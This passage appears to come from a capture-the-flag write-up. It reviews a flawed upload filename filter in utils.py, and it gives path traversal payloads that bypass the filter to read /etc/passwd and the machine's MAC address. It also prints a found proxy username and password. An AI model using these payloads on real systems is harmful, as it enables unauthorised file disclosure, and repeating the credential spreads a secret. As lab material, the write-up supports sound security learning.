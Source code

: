 - I find a proxy login record, but so far, I haven't find any place to use it.
```
dev01:Soulless_Developer#2022
```


### Vulnerability 

- In ```utils.py```, we can find the following code

```
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
```

and 

```
def get_unique_upload_name(unsafe_filename):
    spl = undsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension
```

Here are common filter code to avoid the LFI.
It only replace ```"../"``` to empty.

```
return recursive_replace(unsafe_filename, "../", "")
```
- With above code review, let's try the following payload : 

```
/uploads/..//..//..//..//sys/class/net/eth0/address

```

![](./IMG/17.png)
- We can get the mac address.
- With following payloads, we can get passwd file content.
```
/uploads/..//..//..//..//etc/passwd

```